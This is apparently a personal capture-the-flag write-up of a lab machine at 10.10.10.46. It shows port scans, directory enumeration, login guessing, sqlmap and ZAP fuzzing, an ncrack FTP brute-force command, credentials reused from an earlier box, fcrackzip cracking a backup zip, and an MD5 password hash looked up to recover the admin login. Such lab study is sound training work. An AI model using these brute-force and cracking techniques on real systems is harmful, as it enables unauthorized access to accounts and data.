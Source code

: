## `nmap 10.10.10.46 -sV -sC`

```
vagrant@vagrant-virtualbox ~> nmap 10.10.10.46 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 14:53 CDT
Nmap scan report for 10.10.10.46
Host is up (0.049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

## `dirb`

Not really useful.

```
┌─[vagrant@vagrant-virtualbox]─[~]
└──╼ $dirb http://10.10.10.46/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Mar 31 13:33:22 2021
URL_BASE: http://10.10.10.46/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.46/ ----
+ http://10.10.10.46/index.php (CODE:200|SIZE:2312)                            
+ http://10.10.10.46/server-status (CODE:403|SIZE:276)                         
                                                                               
-----------------
END_TIME: Wed Mar 31 13:36:19 2021
DOWNLOADED: 4612 - FOUND: 2
```

## 

## http://10.10.10.46/

Login page. Time to try some creds!

None seemed to work.

Tried

    admin:MEGACORP_4dm1n!!
    admin:M3g4C0rpUs3r!
    robert:MEGACORP_4dm1n!!
    robert:M3g4C0rpUs3r!

I also tried setting this cookie value:

    user=34322
    role=admin

But that didn't yield results.

Then, I tried SQLMap, but no dice.

    sqlmap http://10.10.10.46 --forms

    [13:40:15] [WARNING] POST parameter 'password' does not seem to be injectable
    [13:40:15] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next form

Going to try a combination of all the logins and creds using OWASP ZAP.

### ZAP 

Going to fuzz this request:

```
POST http://10.10.10.46/index.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Referer: http://10.10.10.46/index.php
Host: 10.10.10.46
Cookie: PHPSESSID=pi34jts3c4nji40425njl3mk2r

username=$HERE$&password=$HERE$
```

With these strings:

```
MEGACORP_4dm1n!!
M3g4C0rpUs3r!
M3g4c0rp123
robert
34322
admin
administrator
admin@megacorp.com
8832
john
john@tafcz.co.uk
57633
Peter
peter@qpic.co.uk
28832
Rafol
tom@rafol.co.uk
86575
super admin
superadmin@megacorp.com
```

...and all the permutations result in similarly-long HTTP responses, likely meaning that these creds aren't valid.

## FTP brute-force, `ncrack`

I can connect to an FTP server on 10.10.10.46, so I'll try to credential stuff that.

    pushd payloads
    ncrack -U formfuzz.txt -P formfuzz.txt ftp://10.10.10.46
    popd

It appears that `ncrack` isn't working. 

## I am stuck 1

Okay, I'm stuck and want to get more acquainted with the tools, so I'm going to just consult the guide.

They say that there is FTP, SSH, and HTTP services running, which is what I found.

But then they say,

> The credentials ftpuser / mc@F1l3ZilL4 can be used to login to the FTP server.

Where did they get these creds from?! Maybe a brute force FTP attack?

I need to consult the previous guide for 'Oopsie'.

...

YES, the cred was in the previous box, 'Oopsie', inside `/root/`... I guess I should have explored that.

Going to get the cred from the previous box now.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

Got the cred, so I can connect to FTP now.

I downloaded `backup.zip` file, but it's password protected.

Then, I decided to try to brute-force it, but it was taking too long, so I used

    fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

And bizarrely, the password was

    741852963

Apparently `rockyou.txt` has a bunch of number sequences in it.

In `index.php` on line 5, we can see this:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
```

This means our cred is

    admin:2cb42f8734ea607eefed3b70af13bbd3

And can be processed by hashcat. But first, I'm going to look it up in an online md5 database.

It was `qwerty789`! Yay for laziness.

    admin:qwerty789